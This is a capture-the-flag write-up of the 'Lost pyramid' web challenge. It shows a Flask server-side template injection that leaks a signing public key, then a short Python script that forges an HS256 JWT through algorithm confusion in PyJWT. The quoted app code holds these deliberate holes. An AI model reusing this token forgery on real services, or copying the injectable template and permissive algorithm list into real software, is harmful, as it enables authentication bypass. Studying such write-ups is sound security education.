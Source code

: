 # Lost pyramid
A fun little challenge involving jwt tokens. The wmebsite has multiple rooms with their own endpoints. Noteworthy rooms are `/kings_liar` and `/scarab_room`
Notably,  the scarab room has some suspicious code:
```python
if request.method == 'POST':  
    name = request.form.get('name')  
    if name:  
        kings_safelist = ['{','}', '𓁹', '𓆣','𓀀', '𓀁', '𓀂', '𓀃', '𓀄', '𓀅', '𓀆', '𓀇', '𓀈', '𓀉', '𓀊',   
                            '𓀐', '𓀑', '𓀒', '𓀓', '𓀔', '𓀕', '𓀖', '𓀗', '𓀘', '𓀙', '𓀚', '𓀛', '𓀜', '𓀝', '𓀞', '𓀟',  
                            '𓀠', '𓀡', '𓀢', '𓀣', '𓀤', '𓀥', '𓀦', '𓀧', '𓀨', '𓀩', '𓀪', '𓀫', '𓀬', '𓀭', '𓀮', '𓀯',  
                            '𓀰', '𓀱', '𓀲', '𓀳', '𓀴', '𓀵', '𓀶', '𓀷', '𓀸', '𓀹', '𓀺', '𓀻']    
        name = ''.join([char for char in name if char.isalnum() or char in kings_safelist])  
  
        return render_template_string('''  
            <!DOCTYPE html>            <html lang="en">            ...            <body>                <a href="{{ url_for('hallway') }}" class="return-link">RETURN</a>                                {% if name %}  
                    <h1>𓁹𓁹𓁹 Welcome to the Scarab Room, '''+ name + ''' 𓁹𓁹𓁹</h1>  
                {% endif %}                            </body>  
            </html>        ''', name=name, **globals())
```
Here, name is directly added to the template then rendered , allowing for SSTI. We just so happen to be able to use curly brackets in name, which means we are able to inject jinja expressions into the code. Unfortunately, only alphanumeric characters and hierographics(which are useless) are allowed, meaning we can't directly invoke any code.  Since all global variables are provided to the template we, are able to access the variables defined:
```python
# Load keys  
with open('private_key.pem', 'rb') as f:  
    PRIVATE_KEY = f.read()  
  
with open('public_key.pub', 'rb') as f:  
    PUBLICKEY = f.read()  
  
KINGSDAY = os.getenv("KINGSDAY", "TEST_TEST")  
  
current_date = datetime.datetime.now()  
current_date = current_date.strftime("%d_%m_%Y")
```
![[Pasted image 20240910223417.png]]
![[Pasted image 20240910223346.png]]
![[Pasted image 20240910223507.png]]
`PRIVATE_KEY` contains an underscore and can not be accessed through the template injection here. 
On to the `kings_liar`, whose template contains our flag:
```python
@app.route('/kings_lair', methods=['GET'])  
def kings_lair():  
    token = request.cookies.get('pyramid')  
    if not token:  
        return jsonify({"error": "Token is required"}), 400  
  
    try:  
        decoded = jwt.decode(token, PUBLICKEY, algorithms=jwt.algorithms.get_default_algorithms())  
        if decoded.get("CURRENT_DATE") == KINGSDAY and decoded.get("ROLE") == "royalty":  
            return render_template('kings_lair.html')  
        else:  
            return jsonify({"error": "Access Denied: King said he does not way to see you today."}), 403  
    except jwt.ExpiredSignatureError:  
        return jsonify({"error": "Access has expired"}), 401  
    except jwt.InvalidTokenError as e:  
        print(e)  
        return jsonify({"error": "Invalid Access"}), 401
```
Checks are performed to ensure our decoded pyramid cookie has the correct date and role. This cookie is set in the hallway, but is not the right value we want. Now, we need a way to tamper with the token, while keeping its signature valid. Upon analysis, the token is first set in the `/enterance`, and signed using EdDSA, an asymmetric signing algorithm
```python
@app.route('/entrance', methods=['GET'])  
def entrance():  
    payload = {  
        "ROLE": "commoner",  
        "CURRENT_DATE": f"{current_date}_AD",  
        "exp": datetime.datetime.now(datetime.timezone.utc) + datetime.timedelta(days=(365*3000))  
    }    token = jwt.encode(payload, PRIVATE_KEY, algorithm="EdDSA")  
    response = make_response(render_template('pyramid.html'))  
    response.set_cookie('pyramid', token)  
    return response
```
In order to product a valid token, we would need to know the private key, which we can't access. However, consider this line of code again
```python
decoded = jwt.decode(token, PUBLICKEY, algorithms=jwt.algorithms.get_default_algorithms())  
```
Here, the token supports using multiple signing algorithms, including symmetric ones such as `HS256`. In that case, the key used for verification is also the key used for signing. By knowing the public key(which we obtained previously) , we can forge our own tokens!
Solution:
```python
import jwt
import datetime
PUBLICKEY = b"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPIeM72Nlr8Hh6D1GarhZ/DCPRCR1sOXLWVTrUZP9aw2"
payload = {  
    "ROLE": "royalty",  
    "CURRENT_DATE": f"03_07_1341_BC",  
    "exp": datetime.datetime.now(datetime.timezone.utc) + datetime.timedelta(days=(365*3000))  
}
token = jwt.encode(payload, PUBLICKEY) # Default algorithm is HS256
print(token)
```
Using this cookie, we are able to access the king's liar:
![[Pasted image 20240910230334.png]]
> Interestingly, this challenge would have been solved faster if I bothered checking pyjwt's github: https://github.com/jpadilla/pyjwt/security/advisories/GHSA-ffqj-6fqr-9h24
> This is a fun little reminder to always see if there are any known vulnerabilities in the libraries used.